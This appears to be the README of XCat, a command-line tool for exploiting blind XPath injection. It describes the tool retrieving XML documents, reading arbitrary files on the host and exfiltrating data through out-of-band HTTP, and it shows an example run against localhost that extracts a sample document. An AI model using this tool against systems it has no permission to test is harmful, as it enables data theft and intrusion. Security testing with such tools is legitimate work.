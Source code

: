 About XCat
==========

XCat is a command line program that aides in the exploitation of blind XPath injection vulnerabilities. It can be used
to retrieve the whole XML document being processed by a vulnerable XPath query, read arbitrary files on the hosts filesystem
and utilize out of bound HTTP requests to make the server send data directly to xcat.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request)
and it requires you to manually identify the exploit first, this does not do that for you. Check out the docs 
at http://xcat.readthedocs.org/ for more info.

**Note:** This requires Python 3.4 to run.


An example::

    >> xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    Retrieving /*[1]
    <?xml version="1.0" encoding="utf-8"?>
    <lib test="1" attribute1="3">
        <book>
                <!-- Comment -->
                <title>Bible</title>
                <description another="attribute">The holy book</description>
    ...
